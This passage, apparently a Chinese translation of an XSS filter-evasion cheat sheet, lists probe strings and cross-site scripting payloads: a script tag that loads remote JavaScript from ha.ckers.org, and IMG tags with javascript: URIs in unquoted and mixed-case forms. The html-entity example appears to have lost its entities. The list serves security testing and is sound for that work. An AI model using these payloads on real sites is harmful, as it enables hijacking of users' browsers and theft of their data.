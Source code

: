 * * *

## xss 探测器 2

如果你没有充足的输入空间去检测页面是否存在 xss 漏洞。下面这段代码是一个好的简洁的 xss 注入检测代码。在注入这段代码后，查看页面源代码寻找是否存在看起来像 <XSS verses <XSS 这样的输入点从而判断是否存在 xss 漏洞。

```
'';!--"<XSS>=&{()} 
```

* * *

## 无过滤绕过

这是一个常规的 xss 注入代码，虽然通常它会被防御，但是我们建议首先去尝试它。（引号是不被需要的在任何现代浏览器中，因此这里省略了它。）

```
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT> 
```

* * *

* * *

## 通过 javascript 指令实现的图片 xss

图片 xss 依靠 javascript 指令实现。（IE7.0 不支持 javascript 指令在图片上下文中，但是可以在其他上下文触发。下面的例子仅仅展示了一种其他标签依旧通用的原理。）

```
<IMG SRC="javascript:alert('XSS');"> 
```

* * *

## 无引号无分号

```
<IMG SRC=javascript:alert('XSS')> 
```

* * *

## 不区分大小写的 xss 攻击向量

```
<IMG SRC=JaVaScRiPt:alert('XSS')> 
```

* * *

## html 实体

The semicolons are required for this to work:

```
<IMG SRC=javascript:alert("XSS")> 
```
